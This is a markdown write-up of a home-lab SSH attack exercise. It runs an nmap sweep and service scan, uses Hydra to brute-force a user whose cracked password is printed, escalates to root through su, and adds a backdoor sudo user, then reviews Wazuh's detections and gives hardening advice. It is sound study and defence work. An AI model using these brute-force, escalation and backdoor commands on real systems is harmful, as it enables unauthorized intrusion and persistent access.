

# Attack Plan #1 — SSH Brute Force

> Total time: ~3h (including setup and debugging)


## Scenario

I got connected to a WiFi network. I don't know who else is on it.
My goal is to find active hosts, identify a target, and gain SSH access via brute force.

> Note: `netstat` is not enough here — it only shows connections and open ports on **my own machine**.
> I need `nmap` because it actively scans the **entire network** and discovers other devices.

---

## Attack Flow



---

## Steps

### 1. Network scan — discover active hosts

```bash
nmap -sn 192.168.1.0/24
```

This shows all active devices on the network.

From the scan, multiple Proxmox devices appear (MAC prefix `BC:24:11`). Since cs33 is an LXC container, it doesn't appear with a hostname — I identify it via the Proxmox host (`pct exec 33 -- ip a`), which confirms cs33 is at `192.168.1.133`.

### 2. Port scan — find open services on the target

```bash
nmap -sV 192.168.1.133
```

Port 22 (SSH) is open — running OpenSSH 8.9p1 on Ubuntu. The target is vulnerable to brute force.

### 3. Brute force SSH with Hydra

> In a real scenario I would use the full `rockyou.txt` wordlist (14M passwords). Here I used a short custom wordlist for speed.

```bash
hydra -l swagvict -P /tmp/test-passwords.txt -t 4 -V ssh://192.168.1.133
```

Hydra found the credentials:
```
[22][ssh] host: 192.168.1.133   login: swagvict   password: victim
1 of 1 target successfully completed, 1 valid password found
```

### 4. Login with cracked password

```bash
ssh swagvict@192.168.1.133
```

---

## Post-exploitation

### Privilege Escalation

Checked for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Found `/usr/bin/su` with SUID bit. Running `su -` with the root password granted a full root shell.

> **Security issue:** any user on cs33 can switch to root if they know the root password. In a hardened system, root login should be disabled and `su` restricted to a specific group (e.g. `wheel`).

### Backdoor User — Persistence

Once root, created a backdoor user with sudo privileges:

```bash
useradd -m -s /bin/bash backdoor
passwd backdoor
usermod -aG sudo backdoor
```

From cs20, persistent access is now available even if `swagvict` is removed:

```bash
ssh backdoor@192.168.1.133
```

---

## Detection — cs55 Wazuh Alerts

> **Note:** Initially no alerts appeared. This was a false alarm during investigation — Wazuh was already monitoring SSH via `journald`. Once deliberate failed logins were attempted, alerts appeared immediately.

Wazuh categorized the attack as:
- `Initial Access`
- `Credential Access` — brute force
- `Lateral Movement - Success` — successful SSH login
- `Privilege Escalation`
- `Persistence` — backdoor user created
- `Defense Evasion`

cs55 also detected:
- cs20 IP (Kali Linux) as attack source
- Creation of the backdoor user
- Reconnection from cs20 as `backdoor`

---

## Human (Me) Observations

- **Human Psychology:** As an attacker, I'll be anxious on the attack, i might be not observed or not considered some context around.
- **Social Engineering:** Alot of way to get password, how human react to it, what they think about it, what they do, etc.

## AI Observations

- **Weak password on a critical user:** `swagvict` had password `victim` — cracked instantly. In a real environment, password policies and account lockout after N failed attempts are essential.
- **Root password accessible via `su`:** privilege escalation was trivial. `su` should be restricted or root password disabled entirely in favor of `sudo` with per-user rules.
- **LXC containers are not isolated at network level:** cs33 was reachable from the entire LAN with no firewall rules. A proper setup would restrict inbound SSH to trusted IPs only.
- **Wazuh detected everything but didn't block anything:** Wazuh in this setup is passive (SIEM only). To actively block attacks, `active-response` rules need to be configured — e.g. auto-ban IPs after X failed SSH attempts via `fail2ban` integration.
- **Backdoor user was detected but not stopped:** this highlights the importance of alerting AND response. Detection alone is not enough in a real SOC.

